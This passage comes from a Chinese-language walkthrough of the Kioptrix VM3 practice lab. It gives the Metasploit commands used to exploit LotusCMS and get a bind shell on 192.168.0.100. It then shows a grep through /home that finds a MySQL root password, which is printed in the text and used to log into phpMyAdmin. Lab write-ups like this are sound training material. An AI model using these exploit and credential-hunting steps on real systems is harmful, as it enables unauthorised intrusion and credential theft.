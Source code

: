 5. 直接尝试反弹shell失败，可能是姿势不对，使用msf搜索LotusCMS的漏洞，发现有一个exp，换了几个payload，最后使用如下姿势成功拿到shell
   
   ```shell
   use exploit/multi/http/lcms_php_exec
   set rhost 192.168.0.100
   set payload generic/shell_bind_tcp
   exploit
   ```
   
    ![8.png](./img/KioptrixVM3/8.png)

# 三、权限提升

1. ctrl+z返回msf，使用msf自动提权模块提权失败

2. 尝试寻找mysql的账号密码，如下，成功找到mysql的root密码fuckeyou
   
   ```shell
   grep -r "localhost" /home
   ```
   
     ![9.png](./img/KioptrixVM3/9.png)

3. 使用root/fuckeyou登录phpmyadmin，发现一个dev_accounts表
     ![10.png](./img/KioptrixVM3/10.png)
